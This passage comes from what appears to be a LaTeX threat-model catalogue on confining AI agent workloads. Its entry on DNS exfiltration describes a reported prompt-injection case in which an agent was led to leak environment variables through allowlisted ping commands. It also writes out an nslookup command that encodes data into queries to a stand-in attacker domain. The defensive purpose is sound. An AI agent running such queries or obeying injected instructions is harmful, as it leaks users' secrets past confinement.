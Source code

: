 \textbf{MITRE ATT\&CK.} T1021 (Remote Services), T1570 (Lateral Tool
Transfer).

\hypertarget{t1.7-dns-based-exfiltration-to-an-authorised-resolver}{%
\section{T1.7 --- DNS-based exfiltration to an authorised
resolver}\label{t1.7-dns-based-exfiltration-to-an-authorised-resolver}}

\textbf{Definition.} A confined workload exfiltrates data by encoding it
into DNS queries sent to its authorised resolver, which forwards them to
an attacker-controlled authoritative nameserver.

\textbf{Observed instances.} The Mindgard Cline research (October 2025)
demonstrated this technique: prompt-injected instructions caused the
agent to read environment variables and encode them into DNS queries via
\texttt{ping} commands, which were on a default safe-command allowlist.

\textbf{Attack pattern.} The attacker controls a domain
\texttt{attacker.example}. The workload reads sensitive data, splits it
into DNS-label-sized chunks, and issues
\texttt{nslookup\ \textless{}chunk\textgreater{}.attacker.example}
queries. The authorised resolver forwards them to the attacker's
nameserver, which logs them.

\textbf{Confinement approach.} Remove the workload's ability to make raw
DNS queries. Resolution happens on the workload's behalf, against a
policy-restricted name allowlist, so a name outside the allowlist is
never resolved and never leaves. Resolution tooling is not in the
executable set, and arbitrary-host reachability is not in the network
policy, so the direct query channel does not exist rather than being
filtered. This closes DNS exfiltration as a channel that does not exist,
distinct from one that is watched.

\textbf{Residuals.} Determined exfiltration via resolution of allowed
names remains possible: a workload that can contact an allowed API can
encode small amounts of data into the host part of legitimate-looking
subdomain queries. This is the same in-band exfiltration problem as
T1.8.

\textbf{MITRE ATT\&CK.} T1071.004 (Application Layer Protocol: DNS),
T1048 (Exfiltration Over Alternative Protocol).

\hypertarget{t1.8-exfiltration-via-tls-to-an-allowlisted-destination}{%
\section{T1.8 --- Exfiltration via TLS to an allowlisted
destination}\label{t1.8-exfiltration-via-tls-to-an-allowlisted-destination}}


